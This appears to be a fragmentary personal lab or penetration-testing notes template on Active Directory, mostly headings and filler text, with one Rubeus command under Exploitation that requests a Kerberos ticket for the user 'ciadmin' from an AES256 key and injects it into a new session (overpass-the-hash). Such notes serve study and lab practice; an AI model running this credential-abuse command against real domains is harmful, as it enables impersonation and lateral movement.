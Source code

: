 ## Overview 
// Some code

Hello Trying
Are u syncing
## Enumeration 
// Some code

## Exploitation 
// Some code
``
```
C:\AD\Tools\Rubeus.exe asktgt /user:ciadmin /aes256:<aes256 key of ciadmin> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

[[Reconnaissance (TA0043)]]

[[#Enumeration]] 